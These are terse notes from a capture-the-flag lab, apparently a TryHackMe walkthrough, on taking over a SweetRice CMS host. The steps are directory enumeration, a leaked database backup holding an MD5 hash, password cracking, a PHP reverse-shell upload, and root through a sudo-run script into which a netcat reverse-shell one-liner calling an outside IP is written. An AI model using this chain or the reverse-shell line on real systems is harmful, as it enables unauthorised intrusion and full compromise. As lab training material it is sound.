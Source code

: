 <pre>
Machine IP: 10.10.2.78

Enum:
    Open ports:
        22/tcp open  tcpwrapped
        80/tcp http CMS SweetRice installed


Enum http:
gobuster dir --url http://10.10.2.78/content --wordlist /root/Documents/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt




Enum user download `http://10.10.2.78/content/inc/mysql_backup/`
`  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',`

john hash.txt --wordlist=/root/Documents/wordlists/rockyou.txt --format=Raw-MD5

manager:Password123

Login to :http://10.10.2.78/content/as/


Go to the ads 

And create now add:


And put the php reverse shell code 
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -lvp 9003

Run the script 
http://10.10.2.78/content/inc/ads/shell.php


User  flag:THM{63e5bce9271952aad1113b6f1ac28a07}


Root priv esc

$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1337 >/tmp/f" > /etc/copy.sh


sudo /usr/bin/perl /home/itguy/backup.pl

And got root!
</pre>
